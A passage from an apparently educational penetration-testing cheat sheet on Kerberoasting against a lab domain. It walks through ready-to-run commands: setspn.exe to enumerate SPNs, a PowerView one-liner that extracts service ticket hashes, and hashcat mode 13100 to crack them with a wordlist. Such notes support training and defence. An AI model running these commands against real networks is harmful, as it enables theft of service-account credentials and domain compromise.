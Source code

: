   * **What it does:** Uses Hashcat to crack the Kerberos TGS ticket hash that you extracted with `GetUserSPNs.py`.
  * **When to use it:** This is the step immediately after obtaining the hash. The goal is to find the service account's plaintext password.
  * **Example Command:**
    ```shell
    hashcat -m 13100 sqldev_tgs.hash /usr/share/wordlists/rockyou.txt
    ```
  * **Options:**
      * `-m 13100`: The Hashcat hash **m**ode for "Kerberos 5, TGS-REP, etype 23". This is the standard hash type for Kerberoasting.
      * `sqldev_tgs.hash`: The file containing the hash to crack.
      * `/usr/share/wordlists/rockyou.txt`: The wordlist of passwords to try.

-----

### From Windows

#### `setspn.exe -Q */*`

  * **What it does:** A built-in Windows command-line utility for managing SPNs. This command **Q**ueries the domain for all (`*/*`) registered SPNs.
  * **When to use it:** As a native "living off the land" way to identify potential Kerberoasting targets without needing any external tools. It lists the accounts that have SPNs set.
  * **Example Command:**
    ```shell
    setspn.exe -T INLANEFREIGHT.LOCAL -Q */*
    ```
  * **Options:**
      * `-T INLANEFREIGHT.LOCAL`: **T**argets the specified domain.
      * `-Q */*`: **Q**ueries for all SPNs.

#### `Get-DomainUser -SPN | Get-DomainSPNTicket -Format Hashcat > kerberoast_hashes.txt`

  * **What it does:** This is a PowerView one-liner that automates the entire Kerberoasting process. `Get-DomainUser -SPN` finds all kerberoastable users, and pipes the results to `Get-DomainSPNTicket`, which requests the tickets and extracts the hashes in a format ready for Hashcat.
  * **When to use it:** This is one of the most efficient ways to perform the attack when you have a PowerShell session on a domain-joined Windows host.
  * **Example Command:**
    ```powershell
    # First, import PowerView
    Import-Module .\PowerView.ps1
    # Then run the attack
    Get-DomainUser -SPN | Get-DomainSPNTicket -Format Hashcat > kerberoast_hashes.txt
    ```
  * **Options:**
      * `-SPN`: A filter for `Get-DomainUser` to find only accounts with SPNs.
      * `-Format Hashcat`: Specifies the output format for the hashes.
